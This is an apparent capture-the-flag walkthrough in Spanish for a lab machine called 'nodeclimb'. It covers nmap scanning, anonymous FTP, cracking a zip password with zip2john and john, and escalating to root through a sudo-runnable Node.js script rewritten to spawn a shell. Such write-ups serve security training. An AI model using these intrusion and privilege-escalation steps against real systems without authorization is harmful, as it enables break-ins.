






# Máquina nodeclimb

---

Dificultad -> Fácil

---

Primero hacemos un nmap

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos que esta abierto el puerto 22 y el puerto ftp (21) con el login anonymous activado asi que me conecto



Listo contenidos y veo un secretitopicaron.zip asi que lo descargo con get y lo extraigo en mi máquina



Al intentar extraerlo veo que tiene una contraseña asi que intento crackearla con john y zip2john

```shell
zip2john secretitopicaron.zip > hash
```



Encuentro la contraseña (password1) con la que extraigo el archivo



En el archivo extraido encuentro unas credenciales con las que me conecto a ssh

Una vez dentro, busco binarios que pueda ejecutar como root y encuentro un script de js que puedo ejecutar



Miro en GTFOBins y como puedo editar el script solo pongo dentro con nano:

```js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

Y lo ejecuto como sudo



Y finalmente root :)
